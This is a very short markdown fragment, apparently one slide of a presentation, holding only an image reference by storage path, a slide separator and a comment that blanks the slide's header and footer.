

---

<!--
_header: ''
_footer: ''
-->

